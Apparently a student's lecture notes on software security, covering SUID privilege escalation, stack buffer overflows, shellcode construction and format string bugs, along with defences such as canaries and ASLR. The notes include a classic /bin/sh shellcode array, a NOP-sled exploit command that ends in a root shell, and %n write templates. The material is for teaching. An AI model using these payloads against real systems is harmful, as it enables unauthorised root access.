





# Software Security 

- Bug-free software does not exist. 
- Not all bugs lead to vulnerabilities.
- Vulnerabilities without a working exploit exist.
- Vulnerability-free software is difficult to achieve. 

{width=50%}

To minimize the window of exposure, the following steps should ideally be followed:

1. The vendor should find the vulnerability.
2. The vendor should patch the vulnerability.
3. The vulnerability should be disclosed.

### Example of vulnerabilities and exploiting in UNIX-like systems

- In UNIX, each file has an owner with specific privileges. When an executable is run, it spawns a process that runs under the **real user id** (**RUID**), which may not be the same as the owner. 
- The RUID determines the process security constraints while running. 
- The **effective user id** (**EUID**) is the user ID used for checking permissions and it's often equivalent to the RUID. 
- However it’s possible to change **EUID** at runtime, using the **saved user** id (**SUID**). If an attacker exploits a poorly written executable, they can leverage any security flaws to run processes under the **SUID** owner's security constraints, giving them root access. 

Managing permissions correctly is critical. Secure design demands:

- reducing privileged parts to a minimum
- keeping the program simple as possible
- discarding privileges as soon as possible
- employing open design
- avoiding untrusted libraries
- avoiding concurrency race conditions

## Buffer Overflow 

We will consider ELFs running on an 32-bit x86 architecture, but the concept is valid in any other OS or architecture.  
Buffer overflow caused overwrite of the saved $EIP$ (which contains the next instruction to execute) on stack due to lack of size checks. The corrupted return address can lead to various consequences: the program may crash, execute unexpected instructions or attackers can craft malicious payloads to take control of the program. 

> Proper input validation and size checks are necessary to avoid buffer overflows.

How to exploit this vulnerability? We have to jump to a valid memory address where there is a valid piece of code

The method is called _stack smashing_ : we place the code that we want to run directly inside of the buffer and rewrite the return address with the address of the buffer itself.




[Still a lot popular apps are affected by buffer overflows](https://cve.mitre.org/cgi-bin/cvekey.cgi?keyword=buffer+overflow) . 


### Stack smashing

What we place on the buffer? A piece of assembly code and the address of the start of the buffer, so that we overwrite the $ESP$ and then the computer jumps to the code just written in the buffer. To obtain the assembly of a piece of code obviously we first need to write the program, compile it and then we disassemble it. 
But obtaining the precise address of the buffer can be challenging. However, we can estimate it by examining the value of $ESP$ from a debugger. Due to the debugger's presence (different debuggers and different methodologies gives us different values, since the debugging variables are changing the offset of the variables inside the stack), the obtained value may not be entirely accurate, which makes it difficult to execute the code precisely. 
How to solve the problem of precision? We can insert a sequence of NOP instructions before our code, known as a _NOP sled_. The NOP sled allows us 

---


20/04 

Every time you call a function you will find in the disassembled code the **function prologue**:

```assembly
push %ebp
mov %esp, %ebp 
sub $0x4, %esp 
```

in particular: 

1) `push %ebp` saves the current stack base address onto the stack
2) `mov %esp, %ebp` saves into `ebp` the old top of the stack (`esp`). 
3) `sub $0x4, %esp` allocates `0x4` bytes for the local variables.

Regarding the **function epilogue**: 

```assembly
leave
ret
```

can be converted into:

```assembly
mov %ebp, %esp 
pop %ebp
ret
```

where: 

1) `mov %ebp, %esp` is the exact opposite action of the prologue ... we are "saving" in the register that stores the top of the stack the `%ebp` .. basically we are removing the all function stack segment. 
2) `pop %ebp` is used to restore the saved ebp to registry 
3)  `ret` is used to pop the saved `EIP`  and jump there. Indeed remember that on the stack the address of the next instruction (not the instruction of the called function) was pushed. 


Now ... stack mashing 

Everything basically happens since we "expand" the stack from higher values to lower values but we are writing them from lower values to higher values 

A NOP can be seen as an instruction which says "do nothing and go to next cell". 


Historically, goal of the attacker: to spawn a (privileged) shell (on a local/remote machine)

shell code is a set of machine instructions that basically can do anything. 

the first one is to find one on shell-storm.org hoping it works, otherwise, to write it from scratch, the following steps should be followed: 1. write high level code 2. compile and disassemble 3. analyze assembly (clean up the code: in reality size limits the shell code, it should be as small at possible) 4. extract opcode 5. create the shellcode. If an attacker is able to put this structure in memory they ahve everything they need to conclude the attack. The interesting part of this data structure is that everything depends on the address, all parameters can be expressed with respect to it. The shell code can be parametrized with respect to the string ADDRESS.

[Shell-Storm](http://shell-storm.org/)

In Linux a syscall is invoked by an interrupt through int instruction (0x80).
execve is a system call that can be used to switch from user to kernel mode to execute privileged operations.
Just like other functions,execve’s arguments are put, first of all, on the stack, qhen the function is invoked.

```assembly
movl %syscall_number, eax
mov arg1 %ebx
mov arg2, %ecx
mov arg3, %edx
int 0x80
```

(`movl` is a mnemonic for "move long", which is an instruction in x86 assembly language used to move data from one location to another)


With the first two operations we put in memory the needed arguments. Before the call the computer pushes in the stack the arguments. 



`leal` and `movl` are using the same offset since it's always `hack` variable but remember that `leal` is used to load the effective address of a memory operand into a register. 
**remember that in this code execve call it will be dissassembled** .


But remember that this is **hardcoded** and this is not good... we need a "parametric" shellcode. 

.string instruction in assembly put instructions in memory. With this operation we are putting in memory a specific string.

we need to find a way to automatically find the address in memory: 

What is a way to put an address on the stack? Everytime we call a function we put the next instruction (`eip`) on the stack. We exploit this using a call function exactly before a `.string` instruction, so that we can leave the address of the string on the stack. 
Later we can place a `pop` after the `.string`

we need a **portable** code (jump and call trick)




but still in hexadecimal opcodes an assembly instruction like `movb %eax,0x7(%esi)` becomes `movb $0x0,0x7(%esi)`. And this is a problem since 0x00 is `\0`, which is the string term. Any string-related operation will stop at the first `\0` found.
The solution is to removing the zeros firstly using `jump short` , which is similar to other jump instructions, but it is designed to jump to a nearby location in memory. In this way we reduce the number of the zeros in the code.  
Secondly we don't write in the shellcodes an explicit zero, but each we need it we perform a `xor` operation between any operand with itself (which is zero). 

At the end, after the conversion, everything will be:

```c
char shellcode[] =
 "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b"
 "\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd"
 "\x80\xe8\xdc\xff\xff\xff/bin/sh";

void main() {
 int *ret;
 ret = (int *)&ret + 2;
 (*ret) = (int)shellcode;
}
```

but during the call: 

```shell

user@pc: echo "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\ x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x9 0\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\ x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x9 0\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\ xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8 d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\ xff/bin/sh\xb8\xf6\xff\xbf" | ./exploitable-program 

root@pc: # root shell! 
```

Pros of the technique:

- Can be done remotely
- Input can be used as code

but there are many errors:

- Buffer size limitations
- Memory must be marked as executable
- Relies on accurate address guessing

#### Alternatives techniques 

- Memory that we can control 
	- The buffer itself 
	- Some other variable (for example environment variable)
- Built-in, existing functions
- Heap overflows 

##### Environment Variable

It's a valid solution only for **local** exploiting. 

```shell
user@pc: env 
HOME=/home/username 
USER=username ...
```

We allocate an area of memory that contains the exploit. Then, we put the content of that memory in an environment variable named `EGG`. Finally, we have to overwrite the `EIP` with the address of `EGG` by filling the buffer.

##### Built in existing function

In the saved `EIP` we will place the address of a function, for example `system()`. But the CPU is expecting the arguments of the function but also the returning address (after the call of the function). 

Advantages:

- Work remotely and reliably
- No need for executable stack 
- Functions are usually executable

Disadvantages:

- Stack frame must be carefully prepared (the attacker has to emulate the function frame)

### Defending agains Buffer Overflow


Many strategies exist and mainly consists in:

- ASLR 
- not executable stack 
- stack canary 

More specifically:

- Defenses at **source code** level involve the process of finding and removing vulnerabilities:
	- mainly developers cause buffer overflows 
	- using safer libraries 
	- dynamically memory management (e.g. Java) that makes them more resilient (*You can't mash my stack if the stack doesn't exists*).
- Defenses at **compiler level** are focused on making vulnerabilities non-exploitable. 
	- warnings at compile time
	- randomized reordering of stack variables make the stack mashing more difficult. 
	- **canary** is the most important mitigation.
- Defenses at **operating system** level aim to increase the attacks difficulty.
	- **non-executable stack** to clearly distinguish data from code. But this actually is bypassed since it is possible to point the return address to existing machine instructions (code-reuse attacks)
	- **address space layout randomization (aslr)** is a technique which translates the stack at each execution at random, which makes impossible to guess the addresses correctly. 

#### Canary 

Canary mecahnism consists of a variable which is usually placed between local vars and control vars (such as `EIP`/`EBP`) so that it can be used as a "flag" which is checked every time a function returns. A **canary** could be read but if it's correctly implemented, every time the program is run, the canary value changes! So it's impossible to get around it.
There are different types of canaries that can be used for protection:

- **Terminator canaries**: made with terminator characters that cannot be overwritten by string-copy functions.
- **Random canaries**: random sequence of bytes are chosen when the program is run.
- **Random XOR canaries**: same as random canaries, but they are XORed with a part of the structure that needs protection. This helps to protect against non-overflows. 

## Format string bugs

The vulnerability arises because many programming languages provide functions for formatting strings using placeholders that are replaced with values at runtime. For example, in C, `printf()` is used to print formatted output on console. If the user input contains special characters such as `%s` (string), `%d` (integer), `%x` (hexadecimal), etc., and these are not properly sanitized by the program, there is the possibility to leak informations from the stack.  
For example, if arguments are omitted, we can read the stack:

```c
printf("%i, %i, %i", a, b, c); // NOT vulnerable 
printf("%x, %x, %x"); // vulnerable
```

Placeholders modifiers of interest: 

- `I$` (or `pos$` or `n$`)  where `I` is any number (integer) is a placeholder modifier which is place between `%` and the **conversion specifier**. It prints the value of the `I`th argument passed to the printf function, fort example: `%2$d` will print the second argument as a decimal number. 
- `%n` is another **conversion specifier** which writes in the **address pointed** by the argument, the number of chars (bytes) printed so far in the `printf`. In this example, after the call of `printf`, we will have that `i=5` since `hello` has length of 5 chars. `%n` allows us to write directly on the stack and we can exploit this to change any memory cell, maybe an address. 
```c
int x;
printf("hello%n" , &i);
``` 
- `%Ic`, where `I` is an integer that specifies how many times the first character argument should be printed. 

We can scan the stack `%I$x` , iterating over `I`: this will print the hexadecimal code of memory cells, after the one passed as an argument (toward higher addresses): 
```shell
for i in 'seq 1 150'; do echo -n "$i " && ./vuln "AAAA %$i\$x"; done
```

Putting all pieces together we can: 

1. Put, on the stack, the address of the target cell to modify
2. Use `%I$x` to go find it on the stack. Let's call the displacement `I` as `pos`. 
3. Use `%n` to write a number in the target, which is pointed to by address you have pushed in 1.  




Regarding the last image we will write: `\xcc\xf6\xff\xbf%6024c%pos$n` . 
Since writing an address with another address would need billions of chars of padding (if there is a large gap between the target address and the current stack pointer, then more padding will be needed) which is not feasible on any device (memory limits), we divide the single 32 bit write in two separate 16 bits writes using only one format string:

```shell
<target><target+2>%<lower_value>c%pos$hn<higher_value>c%pos+1$n
```

Note that in `%pos$hn` (composed by `%hn` and `pos$`), we use `%hn` instead of `%n` because we are writing 16 bits instead of 32 and we do not want to overwrite the two following bytes with 0s.


Also remember that during testing it's often necessary to generate the characters using tools like (for example) Python scripts. These scripts can generate strings containing specific byte patterns or combinations of non-printable characters. 

### A word on countermeasures

Buffer overflow countermeasures like **ASLR** and **XOR canary** are effective to prevent also this vulnerability. Also compilers warns when a format string function is used without the right specifications.